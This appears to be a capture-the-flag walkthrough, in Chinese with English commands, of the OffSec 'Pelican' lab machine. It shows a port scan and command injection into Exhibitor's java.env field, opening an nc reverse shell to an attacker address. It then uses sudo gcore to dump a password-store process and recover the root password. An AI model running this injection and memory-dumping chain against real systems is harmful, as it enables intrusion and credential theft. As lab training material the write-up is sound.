

###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Pelican
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.227.98 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.227.98:22
Open 192.168.227.98:139
Open 192.168.227.98:631
Open 192.168.227.98:2181
Open 192.168.227.98:2222
Open 192.168.227.98:8080
Open 192.168.227.98:8081
Open 192.168.227.98:445
Open 192.168.227.98:34631

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp   open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         syn-ack CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   syn-ack Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8080/tcp  open  http        syn-ack Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp  open  http        syn-ack nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.227.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
34631/tcp open  java-rmi    syn-ack Java RMI
```

搜尋[edb-48654](https://www.exploit-db.com/exploits/48654)他說在`java.env script`這個欄位加入reverseshell



前往`http://192.168.227.98:8080/exhibitor/v1/ui/index.html`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp445

## java.env script

$(/bin/nc -e /bin/sh 192.168.45.195 445 &)
```

得反彈，在`/home/charles`可得local.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
charles@pelican:/opt/zookeeper$ 
charles@pelican:~$ cat local.txt
444e314b2441abf55faa91f9bc1eec11
```

使用`sudo -l`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/gcore/#sudo)，但發現她要用`pid`
```
charles@pelican:/tmp$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore

charles@pelican:/tmp$ sudo gcore $PID
usage:  gcore [-a] [-o filename] pid
```

看有沒有`password`的`pid`，是`496`
```
charles@pelican:/tmp$ ps aux | grep pass
ps aux | grep pass
root       496  0.0  0.0   2276    72 ?        Ss   22:05   0:00 /usr/bin/password-store
charles  31400  0.0  0.0   6076   820 pts/0    S+   22:32   0:00 grep pass
charles@pelican:/tmp$ sudo gcore 496
sudo gcore 496
0x00007f393b5ef6f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7ffc612f38d0, remaining=remaining@entry=0x7ffc612f38d0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.496
[Inferior 1 (process 496) detached]
```

利用`strings`查看可以得到root的password，在/root可得proof.txt
```
charles@pelican:/tmp$ strings core.496
...
001 Password: root:
ClogKingpinInning731
...

charles@pelican:/tmp$ su root
Password: ClogKingpinInning731
root@pelican:~# cat proof.txt
cat proof.txt
c6e2d0de4640e326d3de29513185f978
```